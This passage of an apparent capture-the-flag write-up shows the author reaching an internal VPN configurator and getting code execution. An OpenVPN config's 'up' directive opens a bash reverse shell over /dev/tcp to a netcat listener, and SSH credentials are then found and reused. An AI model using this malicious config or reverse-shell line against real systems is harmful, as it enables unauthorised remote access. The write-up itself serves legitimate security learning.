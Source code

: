 Going to 127.0.0.1:80 on local web browser, now I can access port 80 from 192.168.122.4:

![](https://i.imgur.com/n5nKS3t.png)

**dns-config.php** -> Not Found

**vpnconfig.php** -> VPN Configurator (Looks like RCE point to me!)

![](https://i.imgur.com/77cW1n5.png)

## OpenVPN RCE

Researching a bit on OpenVPN RCE, I came accross [this article](https://www.bleepingcomputer.com/news/security/downloading-3rd-party-openvpn-configs-may-be-dangerous-heres-why/).

  

Following the script from the above articles, I executed the command on VPN Configurator to spawn a shell successfully.

  

```bash
remote 192.168.122.1
dev tun
script-security 2
nobind
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/1337 0<&1 2>&1&'"
```

![](https://i.imgur.com/fXuBzcO.png)

I had netcat listener running on **dave@ubuntu**(10.10.10.109), and now I have reverse shell connection to **root@DNS**(192.168.122.4):

  

`nc -lvnp 1337`

![](https://i.imgur.com/JqHCZEP.png)

### SSH as dave@DNS

Looking around the file system, I discovered: **user.txt** and **ssh**:

![](https://i.imgur.com/ig0MePo.png)

SSH file had a dave's creds to SSH:(**dave:dav3gerous567**)

![](https://i.imgur.com/qEU4GZV.png)

With the SSH creds found above -> SSHed in to **dave@DNS** from **dave@ubuntu**

![](https://i.imgur.com/zDjomyo.png)

## Privesc dave@DNS to root@DNS
